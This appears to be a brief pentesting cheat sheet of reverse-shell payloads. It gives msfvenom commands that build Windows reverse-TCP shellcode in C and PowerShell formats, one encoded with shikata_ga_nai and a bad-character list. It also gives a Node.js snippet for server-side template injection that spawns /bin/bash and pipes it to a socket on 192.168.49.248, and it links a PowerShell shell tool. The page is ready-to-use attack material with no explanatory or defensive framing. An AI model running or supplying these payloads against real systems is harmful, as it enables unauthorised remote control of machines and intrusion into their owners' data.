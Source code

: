 
# msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

## JavaScript - Node.JS - SSTI

```
(function(){
 var net = require(“net”),
 cp = require(“child_process”),
 sh = cp.spawn(“/bin/bash”, []);
 var client = new net.Socket();
 client.connect(21, “192.168.49.248”, function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/;
})();
```
# Windows PowerShell
https://github.com/antonioCoco/ConPtyShell
